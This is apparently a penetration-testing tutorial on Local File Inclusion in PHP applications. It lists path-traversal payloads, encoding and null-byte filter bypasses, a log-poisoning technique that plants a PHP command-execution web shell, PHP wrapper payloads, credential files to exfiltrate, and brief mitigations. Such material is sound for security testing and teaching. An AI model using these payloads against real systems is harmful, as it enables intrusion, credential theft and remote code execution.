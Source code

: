 ### Local File Inclusion (LFI) Vulnerability

---

### 1. **Understanding Local File Inclusion (LFI) Vulnerability**

- **Definition**: LFI allows an attacker to include files on the server running the application. This inclusion could happen in any script that takes user input to include or require files.
- **Impact**:
    - **Information Disclosure**: Reading sensitive files like `/etc/passwd` or application configuration files.
    - **Remote Code Execution (RCE)**: Under certain conditions (e.g., log poisoning), executing arbitrary commands or scripts.
    - **Directory Traversal**: Accessing files outside of the web root using path traversal sequences such as `../../`.

### 2. **Initial Reconnaissance and Discovery**

- **Objective**: Identify parameters that could be susceptible to LFI.
- **Approach**:
    - **URL Analysis**: Review URLs and identify parameters (e.g., `?file=`, `?page=`, `?lang=`, `?template=`, etc.) that may take file paths as input.
    - **Automated Scanning**: Use tools like Burp Suite, OWASP ZAP, and Nikto to scan for LFI vulnerabilities.
    - **Source Code Analysis**: If access to the source code is available, look for functions like `include()`, `require()`, `fopen()`, `file_get_contents()`, `readfile()`, etc., which may process user input.

### 3. **Manual Testing for LFI**

### Step 3.1: **Basic LFI Payloads**

- **Objective**: Test the application's response to various basic LFI payloads.
- **Payloads**: Start with common path traversal sequences to check for file inclusion.
    - `../../../../../../etc/passwd`
    - `../../../../../../windows/system32/drivers/etc/hosts`
    - `../../../../../../var/www/html/index.php`
- **Example HTTP Request**:
    
    ```
    GET /vulnerable.php?page=../../../../../../etc/passwd HTTP/1.1
    Host: target.com
    
    ```
    
- **Interpret Response**:
    - If the response contains content from the targeted file (e.g., `/etc/passwd`), the LFI vulnerability is confirmed.

### Step 3.2: **Bypass Filters and Input Sanitization**

- **Objective**: Circumvent input validation or sanitization filters.
- **Techniques**:
    - **URL Encoding**: Encode characters to bypass filters (e.g., `../../%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd`).
    - **Double URL Encoding**: Double encode the path traversal sequences (e.g., `%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e/etc/passwd`).
    - **Null Byte Injection**: Use null byte (`%00`) to terminate the input string and bypass certain filters or extensions (e.g., `../../../../../../etc/passwd%00.jpg`).

### Step 3.3: **Windows-Specific Payloads**

- **Objective**: Test for LFI on Windows-based servers.
- **Payloads**:
    - `..\\\\..\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system.ini`
    - `..\\\\..\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\win.ini`
    - `..\\\\..\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\System32\\\\drivers\\\\etc\\\\hosts`
- **Example HTTP Request**:
    
    ```
    GET /vulnerable.php?page=..\\\\..\\\\..\\\\..\\\\windows\\\\win.ini HTTP/1.1
    Host: target.com
    
    ```
    

### 4. **Advanced Techniques for LFI Exploitation**

### Step 4.1: **Log File Poisoning for Remote Code Execution (RCE)**

- **Objective**: Achieve RCE by injecting malicious payloads into server logs and then including those logs through LFI.
- **Technique**:
    - **Inject Malicious PHP Payload**: Inject payloads into server logs such as access logs, error logs, mail logs, etc. Common payload:
        - `<?php system($_GET['cmd']); ?>`
    - **Example Injection**:
        
        ```
        GET /<?php system($_GET['cmd']); ?> HTTP/1.1
        User-Agent: <?php system($_GET['cmd']); ?>
        Host: target.com
        
        ```
        
    - **Access the Log File via LFI**:
        - Example: `/vulnerable.php?page=../../../../var/log/apache2/access.log&cmd=id`
    - **Interpret Response**: If the command executes and returns output, RCE is achieved.

### Step 4.2: **PHP Wrappers for LFI Exploitation**

- **Objective**: Use PHP stream wrappers to bypass restrictions or gain deeper access.
- **Common PHP Wrappers**:
    - `php://filter` for source code disclosure:
        - Payload: `php://filter/convert.base64-encode/resource=../../../../../../etc/passwd`
        - Use `base64` decoding to view the source code.
    - `php://input` to read POST data:
        - Use this to include POST data directly, allowing you to craft more complex payloads.
    - `expect://` (if enabled) for direct command execution:
        - Payload: `expect://ls`
- **Example HTTP Request Using PHP Wrapper**:
    
    ```
    GET /vulnerable.php?page=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
    Host: target.com
    
    ```
    

### Step 4.3: **Null Byte Injection Techniques**

- **Objective**: Bypass input filters or restrictions.
- **Payloads**:
    - `../../../../../../etc/passwd%00`
    - `../../../../../../windows/win.ini%00.html`
- **Purpose**: The null byte (`%00`) truncates the input, allowing it to bypass filename extensions or validation checks.

### 5. **Exfiltration and Further Exploitation**

- **Objective**: Extract sensitive information and explore further attack vectors.
- **Common Targets for Exfiltration**:
    - **System Files**: `/etc/passwd`, `/etc/shadow` (if accessible), `C:\\Windows\\system32\\config\\SAM`.
    - **Configuration Files**: Database configurations like `wp-config.php`, `.env` files, or any other file containing sensitive credentials.
    - **Log Files**: To locate log files, check common locations such as `/var/log/apache2/access.log`, `/var/log/nginx/error.log`, etc.

### 6. **Mitigating LFI Vulnerabilities**

- **Objective**: Implement secure coding practices to prevent LFI.
- **Defense Techniques**:
    - **Input Validation**: Whitelist allowed input values rather than blacklist.
    - **Sanitization**: Properly sanitize user inputs by removing any dangerous characters like `..`, `/`, and `\\`.
    - **Disable Unnecessary PHP Wrappers**: Disable unnecessary wrappers such as `expect://` in the `php.ini` configuration.
    - **Limit File Permissions**: Restrict file permissions to prevent unauthorized access to sensitive files.
    - **Use Secure Functions**: Prefer safer functions that do not directly take user input for file operations.

### 7. **Testing with Automated Tools**

- **Tools to Use**:
    - **Burp Suite Intruder/Repeater**: Automate payload injections and monitor responses.
    - **ffuf/gobuster**: Directory brute-forcing and file enumeration.
    - **Nikto**: Basic web server scanning to identify potential LFI endpoints.
    - **Custom Scripts**: Develop Python or Bash scripts for fuzzing potential LFI parameters with payloads.

### 8. **Crafting Exploit Payloads for Practical Scenarios**

- **Considerations**:
    - Evaluate server-side configurations (OS, web server type, PHP configurations).
    - Determine potential writable directories (`/tmp`, `C:\\Windows\\Temp`).
    - Assess what log files are accessible and writable.
